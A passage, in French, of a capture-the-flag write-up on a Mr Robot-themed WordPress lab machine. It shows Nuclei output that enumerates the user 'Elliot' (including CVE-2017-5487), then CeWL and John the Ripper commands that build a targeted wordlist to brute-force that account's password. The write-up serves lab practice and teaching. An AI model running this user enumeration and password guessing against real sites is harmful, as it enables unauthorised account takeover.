 On peut avoir recours à *wpscan* pour obtenir la liste des utilisateurs du Wordpress mais ici *Nuclei* fait aussi bien l'affaire :  

```plain
[2022-02-04 11:44:49] [apache-detect] [http] [info] http://fieldforce:60000/ [Apache/2.4.38 (Debian)] 
[2022-02-04 11:44:52] [wordpress-rdf-user-enum] [http] [info] http://fieldforce:60000/feed/rdf [Elliot] 
[2022-02-04 11:45:10] [wordpress-xmlrpc-listmethods] [http] [info] http://fieldforce:60000/xmlrpc.php 
[2022-02-04 11:45:18] [tech-detect:php] [http] [info] http://fieldforce:60000/ 
[2022-02-04 11:45:18] [metatag-cms] [http] [info] http://fieldforce:60000/ [WordPress 5.4.2] 
[2022-02-04 11:45:18] [wordpress-detect] [http] [info] http://fieldforce:60000/ [5.4.2] 
[2022-02-04 11:51:02] [wordpress-xmlrpc-file] [http] [info] http://fieldforce:60000/xmlrpc.php 
[2022-02-04 11:51:58] [CVE-2017-5487] [http] [medium] http://fieldforce:60000/wp-json/wp/v2/users/ ["name":"Elliot"]
```

Vu que l'on ne dispose de rien de plus et que il n'y a qu'un article sur le blog (interview de l'acteur de *Mr Robot*) on imagine aisément qu'il faille utiliser [CeWL](https://github.com/digininja/cewl) pour générer une wordlist qui servira à bruteforcer le compte *Elliot*.  

Sauf qu'en réalité c'est quasi impossible. [Un article sur Internet](https://noxious.tech/posts/Uninvited/) prétend y être parvenu en utilisant *CeWL* directement pour obtenir dans sa wordlist le mot de passe *wh1ter0se*... C'est faux puisque ce mot n’apparaît nul par sur le wordpress.  

Pour avoir un scénario où le mot de passe attendu apparaîtrait vraiment il faudrait :  

1. Utiliser CeWL en mode groupage de mots comme ceci :  

```bash
docker run --add-host fieldforce:192.168.56.22 -it --rm cewl -g 2 http://fieldforce:60000/2020/07/28/hello-world/ > elliot.txt
```

Cela nous permet d'avoir le nom *White Rose* dans la liste.  

2. Utiliser la règle *multiword* de John :  

```plain
john --rules=multiword --wordlist=elliot.txt --stdout | sort | uniq > words.txt
```

Ce qui permet d'avoir des entrées comme :  

```plain
white rose
whiterose
White rose
Whiterose
WhiteRose
```

3. Utiliser la règle *dive* de John car elle remplace des lettres en chiffres :  

```plain
john --rules=dive --wordlist=words.txt --stdout > wordlist.txt
```
